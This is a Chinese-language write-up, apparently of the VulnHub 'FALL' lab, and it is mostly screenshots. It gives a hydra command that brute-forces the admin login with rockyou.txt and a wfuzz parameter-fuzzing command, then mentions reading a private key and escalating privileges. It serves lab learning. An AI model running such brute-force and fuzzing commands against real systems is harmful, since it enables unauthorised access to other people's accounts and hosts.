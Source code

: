 +++
title = '0x065 Digitalword.local(FALL)'
date = 2024-10-11T14:25:59+08:00
draft = false
private = true
show_reading_time = true
categories = 'vulnhub'
+++



# 端口扫描

![](/vulnhub_img/WEBRESOURCE4892771c0189d30166b9715c6a61df8aimage.png)

![](/vulnhub_img/WEBRESOURCE76c1ce6e0d52a6c6ee012f787502b3a8image.png)

![](/vulnhub_img/WEBRESOURCE67a1fbba64dc9e10d192e3c4b86bcd31image.png)

# 渗透测试

SMB没啥东西：

![](/vulnhub_img/WEBRESOURCE3536960cdc270398c9c8008fd2b961c5image.png)

80端口

![](/vulnhub_img/WEBRESOURCE7887a9b4f2a956571552406fd941bf19image.png)

查了很多的payload，发现都是认证后的漏洞，得想办法找一下密码了：

hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.5.102 http-post-form "/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:F=incorrect" -t 64

先爆破着：

![](/vulnhub_img/WEBRESOURCEca0bfc5272db95f42c22aa37473d7c55image.png)

然后接着看目录扫描结果：

![](/vulnhub_img/WEBRESOURCEd9b253b9caf07a042a97aa9b8a901b57image.png)

wfuzz -u "[http://192.168.5.102/test.php?FUZZ=1](http://192.168.5.102/test.php?FUZZ=1)" -w /usr/share/wordlists/wfuzz/general/common.txt --hw 7

![](/vulnhub_img/WEBRESOURCE82f1f7774b21a0f0748e3b9bea8ac9beimage.png)

发现信息

![](/vulnhub_img/WEBRESOURCEfc4d7de55dc8a3e489b2ac92867943fbimage.png)

偷看私钥成功：

![](/vulnhub_img/WEBRESOURCEe9901d1365981108414823df00bf7e7bimage.png)

# 提权

![](/vulnhub_img/WEBRESOURCE33dcc17b8d7c710554b90ad54888e13dimage.png)

密码：

![](/vulnhub_img/WEBRESOURCEd2fa0004111621d6c40b906905f3d988image.png)